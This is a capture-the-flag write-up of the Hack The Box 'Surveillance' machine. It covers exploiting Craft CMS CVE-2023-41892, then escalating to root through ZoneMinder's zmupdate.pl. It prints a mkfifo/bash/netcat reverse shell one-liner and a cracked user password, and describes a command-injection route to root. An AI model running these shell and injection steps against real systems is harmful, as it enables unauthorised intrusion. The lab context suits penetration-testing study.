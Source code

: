 # Surveillance


<p align="center">
  <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/6acae25e-f039-4ff6-b160-876222d82942" align="center" alt="keeper-htb" />
</p>



## Introduction :

The Surveillance machine on Hack The Box presented a challenging learning opportunity. The journey involved Nmap scanning, web enumeration, and directory busting to discover an admin login on Craft CMS. Leveraging a Remote Code Execution (RCE) exploit, initial access was gained, leading to the discovery of a user named Matthew. After cracking Matthew's password, SSH access was achieved.

The privilege escalation involved MySQL credentials, "zoneminder" configurations, and a version-specific exploit using Metasploit. Despite challenges, a method to escalate privileges to root was found by manipulating the "user" parameter in zmupdate.pl. The write-up underscores the importance of thorough reconnaissance, exploit analysis, and creative problem-solving in successfully navigating the complexities of the Surveillance machine on HTB.


## Ennumiration :

We start with simple port & services scan and got two standard ports. When we access the web page, it has a specific CMS.

```bash
nmap -p- -T4 -A -sV 10.10.11.245
```

Because HTTP is an open protocol, we can verify whether a webpage can be seen in a web browser.

```bash
sudo echo "10.10.11.245 surveillance" >> /etc/hosts
```
The website appears to be experiencing difficulty locating the site. In such instances, you can resolve the issue by adding the IP and DNS name to the /etc/hosts file.

## Enumerating Directories

Now that we have access to the webpage, let's engage in directory enumeration. In this scenario, we will employ GoBuster.
```bash
gobuster dir -u http://surveillance.htb/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.4-medium.txt -x .php,.html,.txt,.zip
```

I’ve obtained access to an admin login, and it’s running on Craft CMS.

I examined the source code of surveillance.htb/index.php and determined the version it is running.

Upon researching the version online, I discovered a proof of concept for Remote Code Execution (RCE).

## Exploit :

This Gist provides a Proof-of-Concept (POC) for CVE-2023-41892, a Craft CMS vulnerability that allows Remote Code Execution (RCE).


CVE-2023-41892 is a security vulnerability discovered in Craft CMS, a popular content management system. Craft CMS versions affected by this vulnerability allow attackers to execute arbitrary code remotely, potentially compromising the security and integrity of the application.

POC-  https://raw.githubusercontent.com/MrGovindDubey/HTB-Machines/Master/10.10.11.245/poc.py?token=GHSAT0AAAAAACHXKJYFWLBRMVD3Q3QPV74OZOY4YUQ

You need to edit this part of the script for it to work.

```bash 
response = requests.post(url,  headers=headers, data=data, proxies={"http" : http://127.0.0.1:8080"}} 
```

It should get you a shell.

```bash 
python3 POC.py http://surveillance.htb/
```

After successfully exploit and gaining initial access using the PoC, the subsequent step involves obtaining a secure and robust shell for executing bash commands.

I found the following one-liner:

```bash

rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.11.246 4444 >/tmp/f

```

— THE IP AND PORT CAN BE CUSTOMIZED ACCORDING TO USER PREFERENCES.

To elaborate:

The rm command eliminates any pre-existing file at /tmp/f.
The mkfifo command generates a named pipe at /tmp/f.
The cat | /bin/bash pipeline forms an interactive Bash shell linked to the named pipe.
The nc command initiates a network connection, channeling the entire output, including the Bash shell output, back into the named pipe.

This should result in a fully operational shell.
```bash
nc -nvlp 4444
```

During my exploration, I stumbled upon a backup directory nestled within the storage repository.

Subsequently, I proceeded to relocate or duplicate the directory, transitioning it from the storage folder to the hosted web server.

Following this relocation, I initiated a wget command to extract and retrieve the contents of the file, thereby incorporating the backup data into the current environment.

I extracted the contents of the file and examined them to locate specific credentials. Within the extracted data, I identified a user named Matthew along with an encrypted password.

To discern the hashing algorithm employed for Matthew's password, I employed Hash-Identifier. The analysis suggests that the hash might have been generated using SHA-256.


### Password:
Subsequently, I appended the hashed password to a text file and employed hashcat to initiate the password cracking process.

The password cracking operation was successful, and the decrypted password has been obtained.


```bash

Username: Matthew
Password: starcraft122490

```

I attempted it on SSH, and it worked flawlessly



## Root Privilege Escalation : 

I ran LinPEAS from my Python server to investigate credentials.

I came across MySQL credentials that appear to correspond to the database stored in the storage/backups directory.

Subsequently, I uncovered a password associated with something referred to as "zoneminder."




Upon examining the configurations linked to "zoneminder," a deeper dive into research unveiled that Zoneminder is a software primarily designed for monitoring purposes. Given its local storage, the next step involves establishing a port forward using SSH.



Once logged in, the initial checkpoint is to verify if the content can be displayed locally, a process that should yield results akin to a specific display format.


Encountering a roadblock with the default credentials "admin:admin" failing to grant access to the login page, the focus shifts towards identifying the version number. It is discerned as version 1.36.32, serving as a crucial reference point in the pursuit of potential exploits.



An available Proof of Concept (PoC) exploit for Zoneminder is explored, yet attempts to establish a connection after sending the payload prove futile.



Metasploit presents an exploit pertaining to snapshots in Zoneminder. Curiously, while the Metasploit script successfully executes, the accompanying Proof of Concept (PoC) falls short, introducing an unusual complication.



To explore potential avenues for privilege escalation, the `sudo -l` command is invoked. Subsequently, a stable shell is spawned using Python to navigate the system.



After scouring online resources, a method for escalating privileges to root is uncovered. This involves manipulating the "user" parameter within `zmupdate.pl` to input a file directory instead of a user, integrating the previously discovered password. This modified configuration is employed to execute a reverse shell script, subsequently transferred via the Python server using `wget`.



Essential to the execution of the script is the incorporation of Busybox to access the `netcat` command. Placement of the required components is flexible, but adherence to good practice recommends housing them in the `tmp` folder.



Preparation of the attacker to listen on specified ports is undertaken diligently.



Finally, the meticulously configured script is executed, paving the way for further exploration and potential actions within the system.



<hr>
</hr>

## CVE-2023-41892 :

Craft CMS serves as a platform for building digital experiences. A high-impact, low-complexity attack vector has been identified. Users utilizing Craft installations prior to version 4.4.15 are advised to update to at least this version to address the issue. The problem has been resolved in Craft CMS 4.4.15.

POC -  This POC is depending on writing webshell, so finding a suitable folder with writable permission is necessary. 

__Code__ :  https://raw.githubusercontent.com/MrGovindDubey/HTB-Machines/Master/10.10.11.245/poc.py?token=GHSAT0AAAAAACHXKJYFWLBRMVD3Q3QPV74OZOY4YUQ

_Reference:_ 
- https://nvd.nist.gov/vuln/detail/CVE-2023-41892
- https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226

<hr>
</hr>

# Conclusion, 

The Surveillance machine on Hack The Box provided a valuable learning experience in penetration testing. The journey involved thorough enumeration, exploitation of Craft CMS vulnerabilities, and overcoming unexpected challenges in privilege escalation. The  highlights the importance of continuous learning, adaptability, and creative problem-solving in cybersecurity. Overall, the experience served as a practical lesson in real-world scenarios, refining essential skills for effective ethical hacking practices.


